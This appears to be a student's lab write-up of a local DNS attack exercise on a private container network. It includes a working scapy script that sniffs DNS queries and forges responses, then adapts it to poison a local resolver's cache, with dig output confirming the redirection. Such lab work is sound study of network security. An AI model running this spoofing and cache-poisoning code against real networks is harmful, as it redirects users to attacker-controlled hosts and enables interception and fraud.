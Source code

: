 # Local DNS Attack Lab

## 2.4 Testing the DNS Setup

```
$ dig ns.attacker32.com
```
![Screenshot 2025-05-17 124530](https://github.com/user-attachments/assets/9908283a-6417-4be0-a1af-c29fd41451be)

We can see that the answer comes from the attacker nameserver because the dig command only returns the attacker namerserver IP adress.

---

```
$ dig www.example.com
```
![image](https://github.com/user-attachments/assets/12389a65-8795-4317-b38a-425e35e15478)

When trying to access ``` www.example.com ``` the DNS nameserver used is not the malicious one.

---

```
$ dig @ns.attacker32.com www.example.com
```
![image](https://github.com/user-attachments/assets/95c05e42-6cfc-442d-a154-0d809fa0dacf)

If we explicitly ask the attacker nameserver, we get a different (and false) IP adress for ```www.example.com```


#### Our goal: Get the user to ask the malicious nameserver first.  
---

## 3.1 Directly Spoofing Response to User

This is the script we used to spoof the DNS packet.
``` python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
        if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
                print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

                ip = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Swap the source and destination IPs

                udp = UDP(dport=pkt[UDP].sport, sport=53) # Swap the source and destination ports

                # The Answer Section
                Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', ttl=259200, rdata='10.9.0.1')

                # The Authority Section is not needed
                # The Additional Section is not needed

                # Create DNS object
                dns = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=0, arcount=0, an=Anssec)

                spoofpkt = ip/udp/dns # Assemble the spoofed DNS packet
                send(spoofpkt)

myFilter = "udp and dst port 53" # only capture UDP traffic with destination port 53
pkt=sniff(iface='br-4a379a2ae130', filter=myFilter, prn=spoof_dns)
```

With this code, we sniff for DNS requests containing ``` example.com ```, we spoof a reply by swapping target and source IP addresses and ports and creating a DNS answer section containing the 'bad' IP address we want the victim to use for the respective hostname.

When we now execute ``` dig www.example.com ``` on the ``` user ``` machine, we see this:

![image](https://github.com/user-attachments/assets/393f7f25-df2c-4788-9a2b-f2476ae5434f)

The answer now contains the attacker machine's IP address (```10.9.0.1```) and not the real address like before.

---

## Task 2: DNS Cache Poisoning Attack - Spoofing Answers

We now want to be the 'man in the middle' between the local DNS server and a remote authoritative DNS server. 

To do this, we only have to change the filter in our spoofing script to only sniff packets that are coming from our local DNS server and are going to port 53 (DNS requests).

```python
myFilter = "udp and dst port 53 and src host 10.9.0.53" 
```
The rest of the script of task 1 stays the same.

So now the dig request on the ```user``` machine gives 
```
;; ANSWER SECTION:
www.example.com.        259200  IN      A       10.9.0.1
```
as well.

But the local DNS server cache also contains:

```
www.example.com.        863957  A       10.9.0.1
```
